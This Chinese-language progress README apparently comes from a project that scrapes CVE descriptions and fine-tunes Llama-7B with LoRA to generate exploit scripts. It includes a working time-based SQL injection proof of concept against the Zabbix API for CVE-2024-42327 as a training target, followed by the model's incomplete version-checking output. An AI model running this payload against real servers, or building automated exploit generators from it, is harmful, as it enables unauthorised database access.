

# 250926 README

这一周主要在爬虫和预处理数据

1. 爬了近五年的cve漏洞描述，按利用类型可分为10类

- Overflow
- Memory Corruption
- **Sql Injection**
- **XSS**
- **Directory Traversal**
- **File Inclusion**
- CSRF
- XXE
- SSRF
- Open Redirect
- Input Validation

2. 爬虫存在的问题：

- exploit db无法利用cve id作为索引来匹配target url，需要额外预处理一下
- exploit db存在cve id缺省/老旧问题，暂未处理这部分脚本
- GitHub需要区分cve eploit和修复方案，还在写爬虫脚本

3. 微调

    先针对Sql Injection类选了50个exploit example送到Lamma-7b微调（Lora）。输出的脚本存在的问题：

- 参数缺省：为解决该问题，正在对不同类的expliot script进行词频统计，筛选出比较通用的参数，后续讲把它加入到微调的input中（如Sql Injection类需要target ip, username,password,php path,url等）
- 无效payload：增加微调样本、数据预处理（Todo）
- 无法执行：增加微调样本、数据预处理（Todo）



```
Input:
CVE ID: CVE-2024-42327
CVE Description: A non-admin user account on the Zabbix frontend with the default User role, or with any other role that gives API access can exploit this vulnerability. An SQLi exists in the CUser class in the addRelatedObjects function, this function is being called from the CUser.get function which is available for every user who has API access.
Exploit Category:SQL Injection

Expected Output:
import requests
import argparse

HEADERS = {"Content-Type": "application/json"}

def main():
    parser = argparse.ArgumentParser(description="CHECK for CVE-2024-42327")
    parser.add_argument("-t", "--target", required=True, help="API URL")
    parser.add_argument("-u", "--username", required=True, help="Username")
    parser.add_argument("-p", "--password", required=True, help="Password")

    args = parser.parse_args()

    url = f"{args.target.rstrip('/')}/api_jsonrpc.php"

    # Login to get the token
    login_data = {
        "jsonrpc": "2.0",
        "method": "user.login",
        "params": {"username": args.username, "password": args.password},
        "id": 1,
        "auth": None
    }

    try:
        login_response = requests.post(url, json=login_data, headers=HEADERS)
        login_response.raise_for_status()
        auth_token = login_response.json().get("result")

        # Simple SQLi test
        data = {
            "jsonrpc": "2.0",
            "method": "user.get",
            "params": {
                "selectRole": ["roleid", "name", "type", "readonly AND (SELECT(SLEEP(5)))"],
                "userids": ["1", "2"]
            },
            "id": 1,
            "auth": auth_token
        }

        test_response = requests.post(url, json=data, headers=HEADERS)
        test_response.raise_for_status()

        if "error" in test_response.text:
            print("[-] NOT VULNERABLE.")
        else:
            print("[!] VULNERABLE.")

    except requests.RequestException as e:
        print(f"[!] Request error: {e}")

if __name__ == "__main__":
    main()

Output:
import sys
import requests
import json
from packaging import version

AFFECTED_RANGES = [
    ("6.0.0", "6.0.31"),
    ("6.4.0", "6.4.16"),
    ("7.0.0", "7.0.0"),
]

def is_version_in_ranges(ver_str, ranges):
    try:
        v = version.parse(ver_str)
    except Exception:
        return False
    for lo, hi in ranges:
        if version.parse(lo) <= v <= version.parse(hi):
            return True
    return False

def get_zabbix_api_version(base_url, timeout=10):
    # base_url like "https://zabbix.example.com"
    url = base_url.rstrip("/") + "/api_jsonrpc.php"
    payload = {
        "jsonrpc": "2.0",
        "method": "apiinfo.version",
        "id": 1,
        "params": {}
    }
    headers = {"Content-Type": "application/json"}
    try:
        r = requests.post(url, json=payload, headers=headers, timeout=timeout, verify=True)
        r.raise_for_status()
        data = r.json()
        if "result" in data:
            return data["result"]
        else:
            return None
    except requests.exceptions.SSLError:
        try:
            r = requests.post(url, json=payload, headers=headers, timeout=timeout, verify=False)
            r.raise_for_status()
            data = r.json()
            return data.get("result")
        except Exception as e:
            print("API Request Error:", e)
            return None
    except Exception as e:
        print("API Request Error:", e)
        return None

def main():
    if len(sys.argv) < 2:
        print("Usage: python zabbix_version_check.py https://zabbix.example.com")
        sys.exit(1)
    base = sys.argv[1].strip()
    ver = get_zabbix_api_version(base)

if __name__ == "__main__":
    main()
```
